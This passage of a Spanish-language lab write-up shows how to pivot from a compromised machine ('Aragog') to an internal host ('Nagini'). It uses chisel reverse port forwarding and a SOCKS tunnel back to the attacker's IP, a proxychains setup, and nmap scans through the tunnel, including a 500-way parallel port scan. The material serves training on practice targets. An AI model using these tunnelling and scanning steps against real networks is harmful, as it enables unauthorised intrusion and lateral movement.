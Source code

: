 Desde mi máquina corremos chisel en modo servidor:
```sh
./chisel server --reverse -p 1234
# Nos montamos el servidor por el puerto 1234
```
Si quisiera traerme solo un puerto (que no es el caso):  
Desde Aragog, la primera máquina pwneada, nos corremos el chisel en modo cliente:
```sh
./chisel client 192.168.111.106:1234 R:80:10.10.0.129:80
# Mi ip atacante es 192.168.111.106.
# R de Remote port forwarding.
# La Aragog-10.10.0.128 puede conectar con la Nagini-10.10.0.129 pero yo directamente con la Nagini no.

# R:80:10.10.0.129:80 Quiero traerme el puerto 80 de la 10.10.0.129 para que se convierta en mi puerto 80.
```
Si haces un `lsof -i:80` verás que está ocupado ahora. Mi puerto 80 será el puerto 80 de la Nagini.  
Esto es bueno por saber hacerlo pero vamos a olvidar que lo hicimos para lo que viene.

No quiero traerme solo un puerto..quiero ganar acceso a todas las IPs que haya en ese segmento, a todos los puertos, para ello se usa **socks**:
```sh
# Desde Aragog, la máquina que hace de intermediaria.
./chisel client 192.168.111.106:1234 R:socks
# Como cliente me voy a conectar a la 192.168.11.106 (atacante) por el puerto 1234, y abre una conexión tipo socks, por defecto te abre el 1080.
# Entablamos un túnel tipo socks, por ese puerto 1080 te abre el túnel desde mi compu atacante hasta máquinas visibles por Aragog.
```
Ya desde el puerto 1080, que se abré por defecto, tienes un túnel, una conexión directa hasta la máquina **Nagini** desde mi máquina atacante. Es un shocks5

Abre el /etc/proxychains.conf de mi máquina atacante( de mi compu):
+ Comentamos el dynamic_chain
+ Descomentamos el strict_chain
+ Añadimos al final **socks5 127.0.0.1 1080**

Esto lo hacemos porque jugaremos con la herramienta proxychains que leera ese archivo de configuración y sabrá que tiene que escuchar por el equipo local por el puerto 1080.

### Comprobamos que funciona:
```sh
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n 10.10.0.129 2>/dev/null
# Recordarás que antes no teníamos conexión hacía la máquina 10.10.0.29
# Tengo que añadir dos parámetros para que funcione el nmap por el túnel: # -sT de TCP connect Scan, y el -Pn para que no aplique host discovery.
```
¡Y funciona!.


Si quieres analizar todos los puertos y **va algo lento** puedes jugar con **xargs** para paralizar comandos:
```sh
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n 10.10.0.129 2>&1 | grep "tcp open"
# Te lanzará 500 tareas en paralelo.
# Convertimos stderr en stout para mostrar los errores y filtrar por ellos.
```
**Con proxychains no se puede usar la opción -sS de nmap**.
